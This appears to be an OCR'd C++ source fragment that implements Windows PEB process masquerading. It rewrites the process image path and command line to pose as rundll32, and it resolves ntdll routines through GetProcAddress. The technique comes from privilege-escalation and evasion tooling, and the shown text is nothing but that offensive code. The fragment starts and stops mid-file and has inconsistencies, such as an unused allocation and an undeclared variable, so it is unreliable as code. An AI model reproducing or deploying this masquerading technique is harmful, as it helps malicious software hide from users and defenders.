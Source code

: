 ```c++
}

__inline struct _PEB* NtCurrentPeb() { return NtCurrentTeb()->ProcessEnvironmentBlock; }

VOID supMasqueradeProcess(
    VOID
)
{
    NTSTATUS Status;
    PPEB    Peb = NtCurrentPeb();
    SIZE_T  RegionSize;

    PVOID g_lpszExplorer = NULL;
    RegionSize = 0x1000;

    Status = NtAllocateVirtualMemory(
        NtCurrentProcess(),
        &g_lpszExplorer,
        0,
        &RegionSize,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_READWRITE);

    if (NT_SUCCESS(Status)) {
        RtlEnterCriticalSection(Peb->FastPebLock);

        RtlInitUnicodeString(&Peb->ProcessParameters->ImagePathName, g_lpszRundll);
        RtlInitUnicodeString(&Peb->ProcessParameters->CommandLine, g_lpszRundll);

        RtlLeaveCriticalSection(Peb->FastPebLock);

        LdrEnumerateLoadedModules(0, &supxLdrEnumModulesCallback, (PVOID)Peb);
    }
}

int main(int argc, CHAR* argv[])
{
    HINSTANCE hinstStub = GetModuleHandleA("ntdll.dll");
    if (hinstStub)
    {
        RtlInitUnicodeString = (LPRTLINITUNICODESTRING)GetProcAddress(hinstStub, "RtlInitUnicodeString");
        if (!RtlInitUnicodeString)
        {
            printf("Could not find RtlInitUnicodeString entry point in NTDLL.DLL");
            exit(0);
        }

        RtlEnterCriticalSection = (LPRTLENTERCRITICALSECTION)GetProcAddress(hinstStub, "RtlEnterCriticalSection");
        if (!RtlEnterCriticalSection)
        {
            printf("Could not find RtlEnterCriticalSection entry point in NTDLL.DLL");
            exit(0);
        }

        RtlLeaveCriticalSection = (LPRTLLEAVECRITICALSECTION)GetProcAddress(hinstStub, "RtlLeaveCriticalSection");
        if (!RtlLeaveCriticalSection)
        {
            printf("Could not find RtlLeaveCriticalSection entry point in NTDLL.DLL");
            exit(0);
        }
```
